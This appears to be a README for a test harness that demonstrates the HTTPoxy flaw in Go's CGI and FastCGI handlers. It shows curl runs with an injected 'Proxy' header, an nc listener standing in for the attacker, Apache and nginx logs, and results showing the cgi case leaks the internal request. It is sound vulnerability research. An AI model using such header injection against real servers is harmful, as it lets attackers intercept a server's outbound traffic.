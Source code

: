 # Golang HTTPoxy Vulnerability under CGI

Go is not usually deployed under CGI.

But there is: https://golang.org/pkg/net/http/cgi/
and: https://golang.org/pkg/net/http/fcgi/

Run `./build` to get started

There are two test cases:

* net/http/cgi with an apache server, and
* net/http/fcgi with an nginx server

## Versions of go tested

* 1.2.1
* 1.6
* Latest snapshot @ 20160630

## Example run

### cgi

```
Testing: cgi/apache...
Testing done.


Here's the curl output from the client
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   532  100   532    0     0  64383      0 --:--:-- --:--:-- --:--:-- 66500
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
</body></html>


Tests finished. Result time...
Here is the output from the cgi program and apache logs:
==> /var/log/apache2/access.log <==
172.17.0.1 - - [01/Jul/2016:15:34:06 +0000] "GET /httpoxy HTTP/1.1" 500 739 "-" "curl/7.35.0"

==> /var/log/apache2/error.log <==
[Fri Jul 01 15:34:02.516877 2016] [mpm_event:notice] [pid 14:tid 139625779124096] AH00489: Apache/2.4.10 (Debian) OpenSSL/1.0.1t configured -- resuming normal operations
[Fri Jul 01 15:34:02.517157 2016] [core:notice] [pid 14:tid 139625779124096] AH00094: Command line: '/usr/sbin/apache2 -D FOREGROUND'
2016/07/01 15:34:06 Get http://example.com/: EOF
[Fri Jul 01 15:34:06.826194 2016] [cgid:error] [pid 17:tid 139625679427328] [client 172.17.0.1:37733] End of script output before headers: httpoxy

==> /var/log/apache2/other_vhosts_access.log <==


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
Connection from [172.17.0.2] port 12345 [tcp/*] accepted (family 2, sport 55574)
GET http://example.com/ HTTP/1.1
Host: example.com
User-Agent: Go 1.1 package http
Accept-Encoding: gzip

end of trouble
```

### fcgi

```
Testing: fcgi/nginx
Testing done.


Here's the curl output from the client
./build: line 111:  6547 Terminated              nc -v -l 12345 > ./fcgi-mallory.log 2>&1
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 127.0.0.1 (127.0.0.1) port 2082 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.35.0
> Host: 127.0.0.1:2082
> Accept: */*
> Proxy: 172.17.0.1:12345
>
< HTTP/1.1 200 OK
* Server nginx/1.10.1 is not blacklisted
< Server: nginx/1.10.1
< Content-Type: text/plain; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Date: Fri, 01 Jul 2016 15:34:07 GMT
<
{ [data not shown]
100  1398    0  1398    0     0   2640      0 --:--:-- --:--:-- --:--:--  2637
* Connection #0 to host 127.0.0.1 left intact
Response body from internal subrequest:<!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;

    }
    div {
        width: 600px;
        margin: 5em auto;
        padding: 50px;
        background-color: #fff;
        border-radius: 1em;
    }
    a:link, a:visited {
        color: #38488f;
        text-decoration: none;
    }
    @media (max-width: 700px) {
        body {
            background-color: #fff;
        }
        div {
            width: auto;
            margin: 0 auto;
            border-radius: 0;
            padding: 1em;
        }
    }
    </style>
</head>

<body>
<div>
    <h1>Example Domain</h1>
    <p>This domain is established to be used for illustrative examples in documents. You may use this
    domain in examples without prior coordination or asking for permission.</p>
    <p><a href="http://www.iana.org/domains/example">More information...</a></p>
</div>
</body>
</html>

Method: GET
URL: http://127.0.0.1:2082/
RemoteAddr: 172.17.0.1:0
UserAgent: curl/7.35.0


Tests finished. Result time...
Here is the nginx logs (containing output from the fcgi program)
172.17.0.1 - - [01/Jul/2016:15:34:07 +0000] "GET / HTTP/1.1" 200 1410 "-" "curl/7.35.0" "-"


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
end of trouble
```

## Results

### net/http/cgi + net/http vulnerable

The results indicate that using net/http while processing a net/http/cgi request is vulnerable to injection of a proxy
via the user-controlled `Proxy` header (because it reads and trusts the environment variable `HTTP_PROXY`). The important
bit is the lines starting at `Connection from [172.17.0.2] port 12345 [tcp/*] accepted (family 2, sport 55574)` that
indicate a remote attacker has received the proxied internal request.

### net/http/fcgi + net/http not vulnerable

The results also indicate that using net/http/fcgi is not vulnerable in the same way (because environment variables are
not actually set.)
